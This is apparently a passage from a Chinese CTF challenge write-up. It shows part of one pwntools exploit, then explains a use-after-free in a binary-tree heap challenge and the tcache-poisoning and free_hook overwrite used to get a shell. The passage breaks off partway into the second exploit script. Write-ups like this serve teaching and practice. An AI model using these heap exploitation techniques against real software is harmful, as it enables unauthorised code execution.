 ```py

def edit(key, idx, data):
    p.sendlineafter(">> \n", "3")
    p.sendlineafter("want to edit:\n", str(key))
    p.sendlineafter("the index of the data you want to edit:\n", str(idx))
    p.sendafter("data:\n", data)


add(1, 0x10, "/bin/sh\x00" + "a" * 8)
add(32, 0x100, "/bin/sh\x00" + "a" * 8)
edit(32, -0x68, p64(0x4010E0))
p.sendlineafter(">> \n", "3")
p.sendlineafter("please enter the key of the node you want to edit:\n", str(1))
p.interactive()

```

### level3
tcache 一把梭，不难     
但是第二阶段放提示的时候有点后悔没提示洞在哪里www ~ 应该提示这个的
#### 思路
- 本题的附件下发了 libc-2.31.so，ld-2.31.so，可以用 [patchelf](https://github.com/NixOS/patchelf) 来更改二进制文件的运行时库，并用 `ldd` 指令检查是否 patch 成功

- 本题是个堆题，实现了对一个类二叉树的增删改查操作，但是和常规二叉树不同的地方是每个节点多了一个 `same_vals` 指针，指向 key 相同的节点，而在插入时，如果遇到树中有节点和插入节点 key 相同的话，则会把插入节点放到相同 key 节点 `same_vals` 链表的尾部

- 漏洞在于删除节点时，如果该节点的 `same_vals` 不为空，则不会将被删节点父节点的子节点指针置空，从而造成悬垂指针现象，可以 UAF（use after free）

- 后续的利用可以先泄露 unsorted bin 块中的 libc 地址和堆地址，再打 [tcache poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/tcache_poisoning.c)，效果是拿到任意地址写，有一个需要注意的地方是被 free 掉的堆块的前若干个字节会被写，所以对应的 `key` 的值输入也需要相应的改变

- 然后覆盖 `free_hook` 为 `system` 函数的地址，再释放一个含有 `/bin/sh\x00` 字符串的堆块，就可以 get shell 了

#### exp
```py
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
# p=process('./rtree')
p = remote("localhost", 10000)
libc = ELF("./libc-2.31.so")


def insert(key, siz, data):
    p.recvuntil(">> ")
    p.sendline("1")
    p.recvuntil("key\n")
    p.sendline("%d" % key)
    p.recvuntil("size of the data\n")
    p.sendline("%d" % siz)
    p.recvuntil("enter the data\n")
    p.send(data)


def show(key):
    p.recvuntil(">> ")
    p.sendline("2")
    p.recvuntil("to show\n")
    p.sendline("%d" % key)


def remove(key):
```